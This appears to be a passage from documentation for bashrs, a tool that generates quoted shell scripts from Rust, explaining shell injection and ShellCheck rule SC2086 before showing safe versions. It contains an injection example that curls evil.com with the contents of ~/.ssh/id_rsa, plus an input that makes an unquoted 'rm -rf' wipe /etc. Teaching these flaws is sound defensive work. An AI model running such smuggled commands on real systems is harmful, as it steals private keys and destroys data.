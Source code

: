 **Exploitation**:
```bash
$ ./view.sh "/etc/passwd; curl evil.com/exfiltrate?data=$(cat ~/.ssh/id_rsa)"
# Executes BOTH commands!
```

### SC2086: The Most Critical Rule

**Rule**: Double quote to prevent globbing and word splitting

**Example Vulnerability**:
```bash
#!/bin/bash
# cleanup.sh - DANGEROUS
TARGET_DIR=$1
rm -rf $TARGET_DIR/*  # ❌ CRITICAL VULNERABILITY
```

**Attack**:
```bash
$ ./cleanup.sh "/tmp/test /etc"
# Expands to: rm -rf /tmp/test /etc/*
# DELETES /etc CONTENTS!
```

### Bashrs Protection

**Rust Version** (Type-Safe):
```rust
// cleanup.rs - SAFE
fn cleanup(target_dir: &str) -> Result<(), String> {
    // Rust's type system prevents many injection classes
    let target_path = Path::new(target_dir);

    // Validate path before use
    if !target_path.starts_with("/tmp/") {
        return Err("Invalid path: must be in /tmp/".to_string());
    }

    std::fs::remove_dir_all(target_path)
        .map_err(|e| format!("Failed to remove: {}", e))
}
```

**Generated Shell** (Quoted):
```sh
#!/bin/sh
# Generated by bashrs - ALL VARIABLES QUOTED

cleanup() {
    target_dir="$1"

    # ✅ Properly quoted - safe from injection
    rm -rf "${target_dir:?}/"  # :? fails if unset
}
```
